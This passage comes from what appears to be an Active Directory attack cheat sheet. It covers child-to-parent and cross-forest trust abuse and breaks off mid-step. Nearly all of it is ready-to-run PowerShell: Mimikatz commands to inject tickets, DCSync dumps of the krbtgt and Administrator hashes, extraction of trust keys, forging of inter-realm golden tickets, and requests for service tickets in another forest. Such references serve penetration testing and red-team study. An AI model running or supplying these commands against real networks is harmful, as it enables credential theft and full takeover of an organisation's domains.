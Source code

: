 - Inject the inter-realm TGT

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
```

- Attempt to access any resource

```
PS C:\> ls \\test2-dc.domain.local\c$

PS C:\> gwmi -class win32_operatingsystem -ComputerName test2-dc.domain.local
```

- Dump the krbtgt hash of the parent domain

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test2\krbtgt /domain:domain.local"'
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test2\Administrator /domain:domain.local"'        # To dump the Administrator hash
```

Cross Forest Attacks
-----------------------------------------

### Trust Tickets

- Dump the trust key

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <Domain Controller>        # Trust key will be under [In] Current -> Forest, then under rc4_hmac_nt
OR
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\test3$"'        # Trust key will be under Credentials -> Hash NTLM
OR
PS C:\> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <Domain Controller>        # Trust key will be under ecorp$
```

- Forge an inter-realm TGT

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Current Domain> /sid:<SID of current domain> /rc4:<RC4 of the trust key> /service:krbtgt /target:<target Forest Name> /ticket:<Path where ticket is to be saved e.g. C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi>"'
```

- Request a TGS to the external forest for any service (CIFS below) using the forged inter-realm TGT and kekeo_old

```
PS C:\> .\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/test3-dc.domain2.local        # Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well
```

- Inject the TGS to access the targeted service (CIFS below) (may need to use it twice)
